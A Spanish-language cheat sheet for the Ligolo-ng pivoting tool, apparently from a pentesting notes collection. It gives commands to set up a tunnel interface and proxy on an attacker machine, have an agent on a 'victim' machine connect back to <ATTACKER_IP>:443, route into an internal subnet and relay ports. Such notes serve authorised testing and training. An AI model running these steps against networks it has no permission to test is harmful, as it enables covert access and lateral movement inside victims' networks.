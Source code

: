 # Ligolo-ng Cheat Sheet

#### Crear interfaz en equipo atacante
```
sudo ip tuntap add user <YOUR_USERNAME> mode tun ligolo
sudo ip link set ligolo up
```

#### Ejecutar ligolo en equipo atacante y ponerse en escucha en el puerto 443
```
ligolo-proxy -selfcert -laddr 0.0.0.0:443
```

#### Conectarse a máquina victima
```
ligolo-agent -connect <ATTACKER_IP>:443 -ignore-cert
```

#### Agregar la red destino a la que queremos pivotar para alcanzar otros hotst
```
sudo ip route add 192.168.1.0/24 dev ligolo
```

#### Eliminar una red destino en nuestras rutas
```
sudo ip route del 192.168.1.0/24 dev tun0
```

#### Visualizar y seleccionar las sesiones que estan establecidas
```
>> session
```

#### Iniciar una sesión y en la pregunta responder con 'yes'
```
>> start
```

#### Mostrar las conexiones
```
>> listener_list
```

#### Crear un socket TCP de escucha el agente en puerto 1234 para redirigir las conexiones al puerto 4321 del servidor proxy
```
>> listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```


---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)